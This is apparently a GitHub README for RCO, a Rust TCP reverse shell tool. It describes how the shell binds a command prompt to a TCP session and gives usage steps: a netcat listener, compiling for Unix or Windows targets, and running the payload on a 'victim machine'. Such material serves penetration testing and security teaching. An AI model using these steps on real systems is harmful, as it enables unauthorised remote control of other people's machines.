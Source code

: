 # RCO: TCP Reverse Shell

## What it is

RCO's TCP reverse shell is a no-frills [reverse shell](http://127.0.0.1). This means it allows you to run Terminal (Unix)
or Command Prompt (Windows) commands _on the victim machine_ from the attacking machine. Getting a remote shell on a
victim machine usually allows much more control over the victim than other attacks. 

## How it works

Both RCO's Unix and Windows TCP reverse shells work by establishing a [TCP session](http://127.0.0.1) from the victim machine
to the attacking machine. Then a Terminal (Unix) or Command Prompt (Windows) process is spun up with its [standard input](http://127.0.0.1),
[standard output](http://127.0.0.1), and [standard error](http://127.0.0.1) all assigned to the TCP session. This means that
input commands and output results are read from and written to (respectively) a TCP stream.

## Using it

1. Start a listener on the attacking machine
    ```commandline
    nc -nlvp 4444
    ```

2. Open [the config file](https://github.com/kmanc/remote_code_oxidation/blob/master/tcp_reverse_shell/src/config.rs) 
and change the IP address and port to match your attacking machine and listener, respectively

3. Compile the executable

    #### For Unix targets
    ```commandline
    cargo build -p tcp_reverse_shell --release
    ```

    #### For Windows targets
    ```commandline
    cargo build --target x86_64-pc-windows-gnu -p tcp_reverse_shell --release
    ```

4. Execute the payload on the victim machine

5. Return to the listener and enter desired commands for the victim machine to run
